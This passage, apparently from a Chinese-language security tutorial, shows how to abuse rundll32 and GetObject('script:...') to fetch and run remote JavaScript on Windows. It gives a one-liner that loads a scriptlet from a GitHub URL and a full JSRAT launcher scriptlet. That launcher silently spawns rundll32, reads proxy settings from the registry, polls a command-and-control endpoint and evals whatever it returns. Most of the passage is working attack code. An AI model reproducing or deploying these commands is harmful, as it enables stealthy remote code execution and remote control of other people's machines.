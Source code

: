 js文件修改为：

```
GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")

```

执行如图：

![Alt text](http://drops.javaweb.org/uploads/images/3c48f126537231b535398014b36d39b7c007905d.jpg)

0x02 JSRAT
==========

* * *

如果用在rundll32执行js的方法上会怎样呢？

1、calc
------

cmd下执行：

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")

```

如图

![Alt text](http://drops.javaweb.org/uploads/images/a670815738ca436515af7291fac0460cd44bcfe0.jpg)

2、jsrat
-------

如果把服务器上文件的内容替换成jsrat的启动代码会怎样呢？  
代码如下:

```
<?xml version="1.0"?>    

<package>
<component id="testCalc">    

<script language="JScript">
<![CDATA[
        rat="rundll32.exe javascript:\"\\..\\mshtml,RunHTMLApplication     


\";document.write();h=new%20ActiveXObject(\"WinHttp.WinHttpRequest.5.1\");w=new%20ActiveXObject(\"WScript.Shell\");try{v=w.RegRead(\"HKCU\\\\Software\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\Internet%20Settings\\\\ProxyServer\");q=v.split(\"=\")[1].split(\";\")[0];h.SetProxy(2,q);}catch(e){}h.Open(\"GET\",\"http://127.0.0.1/connect\",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject(\"WScript.Shell\").Run(\"cmd /c taskkill /f /im rundll32.exe\",0,true);}";
        new ActiveXObject("WScript.Shell").Run(rat,0,true);
]]>
</script>    

</component>
</package>

```
